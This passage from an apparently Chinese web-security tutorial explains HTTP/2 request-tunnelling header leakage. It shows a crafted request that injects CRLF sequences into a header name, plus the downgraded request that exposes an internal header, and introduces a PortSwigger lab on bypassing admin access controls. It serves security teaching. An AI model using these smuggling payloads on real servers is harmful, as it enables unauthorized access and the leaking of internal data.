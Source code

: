 ![img](assets/1706773318-520d8df763672cd3144b517a3a365ce9.jpg)

### 头部泄露

假设我们发送了一个类似如下的请求来将内部头追加到将成为后端主体参数的内容中。

```c
:method POST
:path   /comment
:authority  vulnerable-website.com
content-type    application/x-www-form-urlencoded
foo 
bar\r\n
Content-Length: 200\r\n
\r\n
comment=
x=1
```

在这种情况下，前端和后端都同意只有一个请求，有趣的是可以让它们在报头结束的位置上产生分歧，前端将我们注入的所有内容都视为头部的一部分，因此在尾部 comment=string 之后，另一方面后端看到`\r\n\r\n`序列认为这是标头的结尾，`comment= string`以及内部头被视为正文的一部分。

```c
POST /comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
comment=X-Internal-Header: secretContent-Length: 3
x=1
```

### 靶场示例

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling "https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling")

靶场介绍：本靶场容易受到请求走私的攻击，因为前端服务器会降级 HTTP/2 请求并且无法充分净化传入的头名称，要解决该实验你需要以管理员用户身份访问/admin 中的管理面板并删除用户 carlos，需要注意的是本环境中前端服务器不重用到后端的连接，因此不容易受到传统的请求走私攻击，然而它仍然容易受到隧道请求的攻击。

靶场演示：
